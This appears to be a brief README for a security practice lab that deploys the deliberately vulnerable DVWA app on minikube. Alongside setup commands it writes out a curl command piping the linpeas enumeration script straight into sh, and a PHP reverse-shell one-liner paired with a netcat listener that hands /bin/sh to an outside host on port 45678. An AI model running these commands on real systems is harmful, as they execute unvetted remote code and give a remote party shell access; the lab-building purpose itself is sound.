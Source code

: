 # Kubernetes deployment



## Minikube

The following show-cases how to deploy everything locally on minikube.

### Start minikube
```bash
minikube start
```


### Start DVWA

Retrieve the IP address minikube is running on
```bash
$ make deploy-dvwa
```

Linepeas
```bash
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### PHP reverse shell

Server

```bash
$ nc -l 45678
```

Client

```bash
$ php -r '$sock=fsockopen("kurtisvelarde.com",45678);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### 

